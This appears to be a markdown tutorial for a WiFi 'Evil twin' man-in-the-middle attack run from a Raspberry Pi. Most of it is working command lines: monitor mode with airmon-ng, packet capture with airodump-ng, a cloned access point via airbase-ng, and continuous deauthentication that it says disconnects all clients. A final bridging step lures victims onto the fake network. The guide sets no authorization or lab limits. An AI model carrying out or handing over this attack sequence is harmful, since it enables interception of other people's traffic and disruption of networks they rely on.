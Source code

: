 Now we want to get started learning some simple WiFi hacks.

We will:

1. Enable our WiFi adapter for monitoring mode.
2. Perform a simple Evil twin attack which is a kind of Man in the middle attack that will allow your Raspberry Pi to act as an AP to monitor information.

Getting Started:
  1. Plug in and turn on your Raspberry Pi
  2. You will need to install bridge utils.
    - After you've SSH'd into your Raspberry pi, run:
      `apt-get install bridge-utils`

Steps:

  1. To show available wireless interfaces run:
    `iwconfig`

  <img src="/img/iwconfig.jpg"/>

  2. Start monitor mode on the available WiFi device.
    Run:
      `airmon-ng start wlan1`

    Also make note of any alerts like:
      `Found 3 processes that could cause trouble.`

<img src="/img/airmongstart.jpg"/>

      "Kill" those processes, they may interfere they may not, you will need to restart the dhclient later:
        `airmon-ng check kill`
      Then re-run:
        `airmon-ng start wlan1`
  <img src="/img/airmonstart2.jpg"/>

  3. Capture packets from the air using the device you put in monitor mode.
      - Run:
        `airodump-ng wlan1mon`

        <img src="/img/capturepackets.jpg"/>

      - After about half a minute enter `control + c` and open a new terminal

      - Open an SSH session with your Raspberry Pi in that terminal like you did at the beginning.

    4. Create the twin

  Run:
          `airbase-ng -a [BSSID] --essid <ESSID here> -c <channel here> <interface name>`
5. De-authenticate the client
For this I am using my phone as the client that is the target of the attack.
          Run:

              `aireplay-ng --deauth 0 -a [BSSID] wlan1mon --ignore-negative-one`

"0" sets the time interval for sending de-authentication requests. 0 = very fast, 1 = 1/second, 2 = 1 every 2 seconds, etc.

This will disconnect all clients from the network

<img src="/img/deauth.jpg"/>

  6. Give the "evil twin" internet access
    This will provide internet access to the fake Access Point and allow clients to connect thinking they're accessing the real Access Point.

        Run:
          `brctl addbr evil`
        This creates a bridge.

        `brctl addif evil eth0`
        and
        `brctl addif evil at0`

        are the two interfaces being bridged.

        "eth0" is the the internet connection on my Raspberry Pi

        and "at0" is the interface created by airmon-ng that clients will connect to the internet through.

        Next you want to assign IP's to the interfaces with:
        `ifconfig eth0 0.0.0.0 up`
        `ifconfig at0 0.0.0.0 up`

        Bring up the evil interface:
        `ifconfig evil up`

        Auto configure DHCP settings:
        `dhclient evil &`

        This completes the set up for the attack. You can see my phone connecting to the "Evil twin"
<img src="/img/phone.jpg"/>
